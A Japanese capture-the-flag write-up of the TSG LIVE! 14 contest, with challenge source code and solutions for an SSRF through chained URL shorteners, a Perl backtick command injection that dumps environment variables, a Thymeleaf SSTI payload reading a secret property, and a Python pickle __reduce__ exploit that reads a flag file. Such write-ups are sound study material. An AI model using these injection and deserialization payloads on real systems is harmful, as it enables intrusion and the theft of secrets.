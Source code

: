 ```yaml
---
title: "TSG LIVE! 14 CTF writeup"
tags:
  - "CTF"
  - "writeup"
---
```


今回は東京大学TSGさんにお誘いいただき、TPCとしてオンサイトで参加させていただきました。
TSG LIVE! 14は五月祭の企画として行われ、そのコンテンツの一つとして2時間半のCTFが開催されました。その他にもコードゴルフや競技プログラミングなどの企画があるようです。

アーカイブはこちら（解説やインタビューがあります）

https://www.youtube.com/live/7Oxm6mKCIjw?si=HrOzfdgtfbOWBeq5

TPC側は9人で参加し、自分はweb問を担当したのでそれを中心に書いていこうと思います。

## web

### Shortnm [8 solves]

> URL短縮サービスを作りました。

<details>
  <summary>問題コード</summary>

```python title=flag/main.py
from fastapi import FastAPI, Request
from fastapi.responses import PlainTextResponse

app = FastAPI()

@app.get("/flag")
async def get_flag(request: Request):
    host = request.headers.get("host", "")
    if host == "flag:45654" and request.url.port == 45654:
        return PlainTextResponse("TSGLIVE{REDACTED}")
    return PlainTextResponse("Access denied", status_code=403)

```

```python title=app/main.py
from fastapi import FastAPI, Query, Request, Response
from fastapi.responses import RedirectResponse, HTMLResponse
from fastapi.templating import Jinja2Templates
import redis
import httpx
import string, random, os

app = FastAPI()
r = redis.Redis(host=os.getenv("REDIS_HOST", "localhost"), port=6379, decode_responses=True)
templates = Jinja2Templates(directory="templates")

def generate_id(length=12):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

@app.get("/", response_class=HTMLResponse)
async def index(request: Request):
    return templates.TemplateResponse("index.html", {"request": request})

@app.get("/shorten")
async def shorten(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortem")
async def shortem(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    url = 'http://is.gd/create.php?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortenm")
async def shortenm(url: str = Query(...)):
    short_id = generate_id() 
    url = 'http://localhost:8000/shortem?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    short_id = generate_id() 
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)    
    return Response(content=response.content,status_code=response.status_code,media_type=response.headers.get("content-type"))

@app.get("/{short_id}")
async def redirect(short_id: str):
    url = r.get(short_id)
    if url:
        return RedirectResponse(url)
    return HTMLResponse("URL not found", status_code=404)

```

</details>

短縮URLを作るサービス(短縮1->target)、外部の短縮URLを使い作るサービス(短縮2->is.gd->target)、２つ目に通したURLのレスポンスを表示するサービスが提供されている。
これを用いてローカルの`http://flag:45654/flag`を取得したい。

この問題に一番最初に取り掛かった。普通に３つ目のサービスに`http://flag:45654/flag`を入れると見れるんじゃねということで入力してみると`Internal Server Error`が発生。このURLを１つ目のものに通してできた`http://xx.xxx.xxx.xxx:xxxxx/1WmFoYkI93mj`を３つ目に入れてみても同じくエラーが発生。

ここでなぜだろうと唸っていると、チームメンバーがis.gdに目的のURLを入れると、次のようなエラーが発生することを特定してくれた。

```json showLineNumbers=false
{
  "errorcode": 1,
  "errormessage": "Sorry, due to widespread abuse, we no longer allow linking to hosts by IP address."
}
```

要は変なホスト名だったりIPアドレスはダメみたい。なので、これをbypassするために適当な短縮URLサービス(今回は一番上に出てきたX.gd)[^short]を使用し、ターゲットのURLを短縮URLに変換し、それを３つ目に入れるとフラグ獲得。[^hisoutei](短縮2->is.gd->X.gd->短縮1->target)

[^short]: ホントは外部のサービスじゃなくてローカルで立ててngrokとかでやったほうがいいと思うんですが、時間がかかるので今回はこちらを採用しました。
[^hisoutei]: 実は想定解ではないらしい https://x.com/iwashiira/status/1926228844471534076

`TSGLIVE{Cr3a71ng_7h3_SSRF_pr0bl3m_wa5_d1ff1cul7}`

### perling_perler [20 solves]

> perl

<details>
  <summary>問題コード</summary>

```perl title=app/app.perl
#!/usr/bin/env perl
use Dancer2;

set template => 'template_toolkit';

get '/' => sub {
    return template 'index';
};

post '/echo' => sub {
    my $str = body_parameters->get('str');
    unless (defined $str) {
        return "No input provided";
    }

    if ($str =~ /[&;<>|\(\)\$\ ]/) {
        return "<h2>echo:</h2><pre>Invalid Input</pre><a href='/'>Back</a>";
    };

    my $output = `echo $str`;

    return "<h2>echo:</h2><pre>$output</pre><a href='/'>Back</a>";
};

start;

```

</details>

perlを使ったechoをするだけのサービス。明らかなOSコマンドインジェクションが存在している。環境変数にフラグはあります。

続いてこちらの問題を見てみる。前述の通りOSコマンドインジェクションだが、`&;<>|()$`と空白が使用できない。
この場合`` `ls` ``のようにすれば任意のコマンドが実行できそうです。
しかしながらスペースが使用できないので`cat /proc/self/environ`などは実行できません。ここで方針が浮かばないでいたところ[^osoi]チームメンバーによると`env`コマンドなるものが存在すると...
そのまま別のチームメンバーが解いてくれました。

[^osoi]: この問題だけ以上に問題サーバーが重かったです。なぜ...?

`` `env` ``と入力して環境変数を取得し、そこにフラグが書いてあります。

```txt showLineNumbers=false
HOSTNAME=27f06e778cd4 HOME=/home/appuser PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PWD=/app FLAG="TSGLIVE{5h3ll1ng_5h3ll3r}"
```

`TSGLIVE{5h3ll1ng_5h3ll3r}`

### iwi_deco_demo [3 solves]

> JavaのWebアプリはSpring Bootで書くといいらしいです。

<details>
  <summary>問題コード</summary>

```java title=src/main/java/iwi/demo/DemoController.java
package iwi.demo;

import java.time.LocalDateTime;
import java.time.format.DateTimeFormatter;

import org.apache.commons.lang3.StringUtils;
import org.springframework.web.bind.annotation.*;
import org.springframework.ui.Model;
import org.springframework.stereotype.Controller;

@Controller
public class DemoController {
  @GetMapping("/")
  public String home() {
    return "iwi_form";
  }

  @PostMapping("/profile")
  public String showProfile(@RequestParam("userId") String userId, Model model) {
    model.addAttribute("userId", userId);
    return "iwi_profile";
  }

  @GetMapping("/user/{userId}/settings")
  public String userSettings(@PathVariable String userId, Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));
    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);
    model.addAttribute("email", userId + "@example.com");
    model.addAttribute("description", "Please update your email.");
    return "iwi_user";
  }

  @PostMapping("/user/{userId}/settings")
  public String updateSettings(@PathVariable String userId,
      @RequestParam String email,
      @RequestParam String description,
      Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));

    if (StringUtils.isBlank(email)) {
      model.addAttribute("message", "Email must not be blank.");
      email = userId + "@example.com";
    }

    if (StringUtils.isBlank(description)) {
      model.addAttribute("message", "Description is required.");
      description = "Please update your email.";
    }

    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);

    model.addAttribute("email", email);
    model.addAttribute("description", description);
    model.addAttribute("message", "Updated your profile.");

    return "iwi_user";
  }
}

```

```html title=src/main/resources/templates/iwi_profile.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO Result</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }
  </style>
</head>

<body>
  <h1>Hello, [[${userId}]]!</h1>
  <p>Click below to go to your settings:</p>
  <a th:href="@{'/user/__${userId}__/settings'}">Go to Settings</a>
</body>

</html>
```

```html title=src/main/resources/templates/iwi_user.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }

    input,
    textarea {
      width: 100%;
      padding: 0.5rem;
    }

    .readonly {
      background-color: #f5f5f5;
    }

    .msg {
      color: green;
      font-weight: bold;
    }
  </style>
</head>

<body>
  <h2>Settings for [[${userId}]]</h2>
  <div th:if="${message}" class="msg">[[${message}]]</div>

  <form th:action="@{/user/{id}/settings(id=${userId})}" method="post">
    <label>User ID:</label>
    <input type="text" th:value="${userId}" readonly class="readonly" />

    <label>Account Type:</label>
    <input type="text" th:value="${accountType}" readonly class="readonly" />

    <label>Last Login:</label>
    <input type="text" th:value="${lastLogin}" readonly class="readonly" />

    <label for="email">Email:</label>
    <input type="email" id="email" name="email" th:value="${email}" />

    <label for="description">Description:</label>
    <textarea id="description" name="description" rows="4" th:text="${description}"></textarea>

    <button type="submit" style="margin-top: 1rem;">Save</button>
  </form>
</body>

</html>

```

</details>

Javaのspring-bootを使用したサービスです。ユーザー名を入力したらそれのプロフィール画面に遷移でき、そこからプロフィール設定画面に遷移できます。

テンプレートを使用しているので、SSTIが濃厚かなと思いながら眺めていましたがJavaはあまり触ってこなかったので色々見ていました。

そこでチームメンバーからOGNLというキーワードが。調べてみるとspring-bootはThymeleaf[^Thymeleaf]を使用していて、そこでSSTIができそう。

[^Thymeleaf]: 読み方はタイムリーフらしい

https://blog.hamayanhamayan.com/entry/2021/12/20/215208

「Thymeleaf SSTI」で調べてみると、どうやらペイロードの一つに`'+${7*7}+'`というものがあるようで、これをサイトに入力しプロフィールから設定に遷移すると、userIdが`49`になりSSTIが成功しました。

https://github.blog/security/vulnerability-research/bypassing-ognl-sandboxes-for-fun-and-charities/

https://modzero.com/en/blog/spring_boot_ssti/

それよりも少し前にチームメンバーも同様のペイロードを確認していて、`"".getClass()`のようなやり方で環境変数を取得するペイロードをなんとか組み立てれないか試行錯誤しているようだったので、自分はThymeleafに環境変数を取得できる方法が存在していないかを調べてみることに。

「thymeleaf environment」で調べてみると、どうやら`${@environment.getProperty('property.key')}`のようなコードで環境変数を取得できるっぽい。[^hisoutei2]

[^hisoutei2]: おそらくこれは非想定解でもっと複雑なペイロードが期待されていたっぽい。 https://nanimokangaeteinai.hateblo.jp/entry/2025/05/24/153344#Web-428-iwi_deco_demo-3-solves

https://blog.tagbangers.co.jp/ja/2015/01/18/thymeleaf-environment-properties.html

```txt showLineNumbers=false
'+${@environment.getProperty("FLAG")}+'
```

これをUser IDに入れて同様にユーザー設定まで行くとフラグを獲得。

`TSGLIVE{5pr1ng_b007_5571_w17h_apach3_lang3_by_PARZEL}`

## その後

自分の担当分野であるweb問題がとき終わってからは残っている問題であるcryptoとpwnを眺めていましたが、全くわからず。[^muzukasii]

[^muzukasii]: そりゃ難しい問題だけが残っているわけで...

そんな中チームメンバーがcyptoの問題に脆弱性を発見したようで。どうやらcryptoの後ろ２つの問題ではpickleが使用されていて、これを悪用することでフラグの値が抜けると！天才か？
そのまま2つのフラグが獲得できてしまい、部屋は大盛りあがりでした。

<details>
  <summary>問題コード</summary>

```python title=problem.sage
#!/usr/bin/env sage 
from flag import flag

def sage_encode(obj):
    from sage.misc.persist import SagePickler
    from base64 import b64encode
    return b64encode(SagePickler.dumps(obj)).decode('ascii')

def sage_decode(enc_data):
    from base64 import b64decode
    import pickle
    return pickle.loads(b64decode(enc_data))

class Isogeny_decomp:
    def __init__(self,P,order_P = -1):
        if isinstance(P,list):
            for i in range(len(P)-1):
                assert P[i].codomain() == P[i+1].domain()
            self.isogenies = P[:]
            return
        if order_P == -1:
            order_P = P.order()
        self.isogenies = []
        for p,c in factor(order_P):
            for i in range(c):
                phi = P.curve().isogeny((order_P//p)*P)
                self.isogenies.append(phi)
                P = phi(P)
                order_P //= p
                if P == P.curve()((0,1,0)):
                    break
            if P == P.curve()((0,1,0)):
                break
    def __call__(self,P):
        for phi in self.isogenies:
            P = phi(P)
        return P
    def __mul__(self,other):
        assert other.isogenies[-1].codomain().j_invariant() == self.isogenies[0].domain().j_invariant()
        isom = other.isogenies[-1].codomain().isomorphism_to(self.isogenies[0].domain())
        return Isogeny_decomp(other.isogenies + [isom] + self.isogenies)
    def dual(self):
        ret = []
        for phi in self.isogenies:
            ret.append(phi.dual())
        ret.reverse()
        return Isogeny_decomp(ret)
    def domain(self):
        return self.isogenies[0].domain()
    def codomain(self):
        return self.isogenies[-1].codomain()

#SIKEp434
e2 = 0xD8
e3 = 0x89
p = 2**e2*3**e3-1
R.<x> = GF(p)[]
k.<i> = GF(p**2,modulus=x**2+1)

xQ30 = 0x00012E84_D7652558_E694BF84_C1FBDAAF_99B83B42_66C32EC6_5B10457B_CAF94C63_EB063681_E8B1E739_8C0B241C_19B9665F_DB9E1406_DA3D3846
xQ31 = 0x00000000
yQ30 = 0x00000000
yQ31 = 0x0000EBAA_A6C73127_1673BEEC_E467FD5E_D9CC29AB_564BDED7_BDEAA86D_D1E0FDDF_399EDCC9_B49C829E_F53C7D7A_35C3A074_5D73C424_FB4A5FD2
xP30 = 0x00008664_865EA7D8_16F03B31_E223C26D_406A2C6C_D0C3D667_466056AA_E85895EC_37368BFC_009DFAFC_B3D97E63_9F65E9E4_5F46573B_0637B7A9
xP31 = 0x00000000
yP30 = 0x00006AE5_15593E73_97609197_8DFBD70B_DA0DD6BC_AEEBFDD4_FB1E748D_DD9ED3FD_CF679726_C67A3B2C_C12B3980_5B32B612_E058A428_0764443B
yP31 = 0x00000000
xR30 = 0x0001CD28_597256D4_FFE7E002_E8787075_2A8F8A64_A1CC78B5_A2122074_783F51B4_FDE90E89_C48ED91A_8F4A0CCB_ACBFA7F5_1A89CE51_8A52B76C
xR31 = 0x00014707_3290D78D_D0CC8420_B1188187_D1A49DBF_A24F26AA_D46B2D9B_B547DBB6_F63A760E_CB0C2B20_BE52FB77_BD2776C3_D14BCBC4_04736AE4


xP3 = xP30+xP31*i
xQ3 = xQ30+xQ31*i
xR3 = xR30+xR31*i
yP3 = yP30+yP31*i
yQ3 = yQ30+yQ31*i

ec_start = EllipticCurve(k,[0,6,0,1,0])
P3 = ec_start((xP3,yP3))
Q3 = ec_start((xQ3,yQ3))

import secrets
sk3 = int(secrets.randbelow(int(3)**e3))
sp3 = P3+sk3*Q3

isogeny = Isogeny_decomp(sp3,3**e3)
E1 = isogeny.codomain()
import sys
print(E1,file=sys.stderr)

P = sage_decode(input("Enter a point: "))
print(sage_encode(isogeny(P).xy()))
P = sage_decode(input("Enter a next point: "))
print(sage_encode(isogeny(P).xy()))

user_sk = int(input("Enter your answer: "))
if user_sk == sk3:
    print("Correct")
    print(flag)
else:
    print("Incorrect")

```

</details>

ここで実際にやってみる。pickleのexploitを用意し、

```python
import base64
import pickle

class Exploit:
  def __reduce__(self):
    return (
      eval,
      ("dict(print(open('./flag.py').read()),)",)
    )

data = base64.b64encode(pickle.dumps(Exploit())).decode('utf8')
print(f"data: {data}")
```

これを実行すると、

![実行結果](../../images/ctf/tsg-live-14/hisoutei3.png "実行結果")

フラグが取れてしまいました。web人間としてはこれは気づきたかった... 悔しい...

## まとめ

![リザルト画像](../../images/ctf/tsg-live-14/result.png "リザルト画像")

CTF初めて数ヶ月、初めてオンサイトのCTFに参加しましたが、わいわいできて非常に楽しかったです。招待してくださったTSGの皆様と、誘ってくれたチームメンバーに感謝！
イベントの結果としてはTSGに勝利し、3988ptで全体では２位という結果でした。１つでもフラグ取れれば良いかなーと思ってましたが２つも取れて結果に寄与できて良かったです。

終了後はメンバーと五月祭を回ったりしました。弊学とは違うところが多く新鮮でした。そして初対面の人とたくさん話せて非常に良かったです。

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">めん <a href="https://t.co/LokMHPEOOf">pic.twitter.com/LokMHPEOOf</a></p>&mdash; kasi (@kq5y__) <a href="https://twitter.com/kq5y__/status/1926222996248653873?ref_src=twsrc%5Etfw">May 24, 2025</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
